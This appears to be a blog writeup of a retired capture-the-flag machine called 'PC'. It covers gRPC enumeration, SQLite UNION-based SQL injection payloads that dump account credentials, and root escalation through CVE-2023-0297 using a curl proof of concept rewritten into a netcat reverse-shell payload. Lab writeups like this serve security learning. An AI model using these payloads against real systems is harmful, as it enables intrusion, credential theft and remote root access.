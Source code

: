 ```yaml
---
title: "PC (Linux) Writeup"
date: 2025-07-09T17:53:21-05:00
draft: false
author: Jarpiano
tags:
image: /images/pc-banner.png
description: 
toc:
center: true
---
```

# PC (Linux) WriteUp
PC is a retired machine focusing on gRPC, SQL injection, and privilege escalation via an RCE vulnerability. We can refer to `CVE-2023-0297` for escalation.

## Initial Foothold
We can enumerate open ports using `nmap`:

```
sudo nmap <IP> -sS -Pn -n --disable-arp -p-
```

I'm using a SYN scan with these options to optimize for speed. The full range of ports is also scanned. The above command yields two ports: `22` and `50051`. Port 22 is an SSH port and the challenge description tells us that port 50051 could be a gRPC endpoint. Doing a more detailed scan on port 50051 using `--script grpc-discovery` along with `-sC`, `-sV`, and `-A` should help us verify.

Alright, to get in contact with the server. I used two services: [grpcurl](https://github.com/fullstorydev/grpcurl) and [grpcui](https://github.com/fullstorydev/grpcui). The former is more hands-on. I was able to list out the services on the endpoint using:
```
grpcurl --plaintext <IP>:<PORT> list
```
I found the SimpleApp service. Then I used the following to find the methods:
```
grpcurl --plaintext <IP>:<PORT> describe SimpleApp
```
This helped me find LoginUser, RegisterUser, and getInfo. From this point onwards, an explanation with grpcurl is personally more repetitive command wise, so I'll switch to grpcui.

After cloning the repo, we can `cd` to its root and run:
```
go run ./cmd/grpcui/grpcui.go -plaintext <IP>:<PORT>
```
This gives a webpage at `http://127.0.0.1/<RANDOM-PORT>`. From here, all the methods and our service are already there.

![image](/images/pc-image1.png)

We can see that grpcui also grabbed us some arguments we can use. Let's try a random user like `poison:poison`. 

![image](/images/pc-image2.png)

Let's use RegisterUser to create a new user. When we check back on our response code, we get:
```
{
  "message": "Account created for user poison!"
}
```
Alright in that case, let's login. We get a new message as well as a token:
```
{
  "message": "Your id is 652."
}
```

```
token:b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoicG9pc29uIiwiZXhwIjoxNzUyMTA5NTYwfQ.RbCLN3s2zzm4FqP5RBFA-KwinrZSoaPZf28SSACo38Y'
```
On further inspection of getInfo, we can use this to get some output from the getInfo method. This point was full of trial of error, so I'm gonna skip a few steps. The challenge description described a SQL issue, so I started from there. However, I discovered that after a few minutes, the token and the ID eventually expired. This required me to create a new account to avoid the error.

However, I also tried some default credentials and found that `admin:admin` was a user on the LoginUser method. Then, I tried seeing if the ids associated with admins had anything in getInfo. Entering 1 into the id parameter yielded new results. Also need to mention that the token used for the `1` id didn't matter as long as one was used.

```
{
  "message": "The admin is working hard to fix the issues."
}
```

We get the above message. My next step was then trying out all my SQL injection known payloads. I found the vulnerability in the id parameter and eventually worked out that the single quote had to URL encoded to proceed, giving us: `1%27`.

Much trial and error gave me the payload:
```
1%27 UNION SELECT 1;
```

Attempting to add another statement to the payload such as `1%27; SELECT * FROM...` gave me an error exposing the database as a SQLITE. From here we could test if `1$27 UNION SELECT sqlite_version()` worked. Bingo.
We got the following:
```
{
  "message": "3.31.1"
}
```
When I attempted some other payloads, the statement `"The admin is working hard to fix the issues."` was often in the way. We can explore the other outputs by using `LIMIT` and `OFFSET`. These were used to scavenge the database:

**To search for tables**:
```
1%27 UNION SELECT name FROM sqlite_master WHERE type='table' LIMIT 1 OFFSET 2; 
```

**To search for column names on the tables:**
```
1%27 UNION SELECT name FROM PRAGMA_TABLE_INFO('accounts') LIMIT 1 OFFSET 1;
```
And subsequently:
```
1%27 UNION SELECT name FROM PRAGMA_TABLE_INFO('accounts') LIMIT 1 OFFSET 2;
```

Then, I used the following, changing up the offset value when needed:
```
1%27 UNION SELECT username FROM accounts LIMIT 1 OFFSET 0;
```
For username and password respectively.
```
1%27 UNION SELECT password FROM accounts LIMIT 1 OFFSET 0;
```
In total this yielded valuable information:

| Username | Password               |
| -------- | ---------------------- |
| admin    | admin                  |
| sau      | HereIsYourPassWord1431 |
`sau` was a valid user for SSH, so I logged in using their credentials. 

## Privilege Escalation
The description say that we could gain a foothold using `CVE-2023-0297`. I spent some time jumping around here, but the most useful was [this](https://huntr.com/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65) bounty that used the following command as PoC:
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
    --data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%74%6f%75%63%68%20%2f%74%6d%70%2f%70%77%6e%64%22%29;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
Running this commands creates a `/tmp/pwnd` file that's owned by root. I modified this command to send me a reverse shell. First let's set up our listener:
```
nc -lvnp 1234
```

We need to use pyimport to fully exploit it:
```
pyimport os;os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LISTENER-IP> 1234 >/tmp/f")
```
This should be encoded in hex with `%` separators. We also should get rid of the `Content-Length` header to avoid any issues. This should give us:
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' \
    --data-binary $'package=xxx&crypted=AAAA&jk=<HEX-PAYLOAD>;f=function%20f2(){};&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```
If this doesn't work, try to put a `%` sign at the beginning of the hex payload if there isn't one already.

Alright, I got back a root shell!

![image](/images/pc-image3.png)

`cd` into root, cat to stdout, and we're finished.

**Fin.**
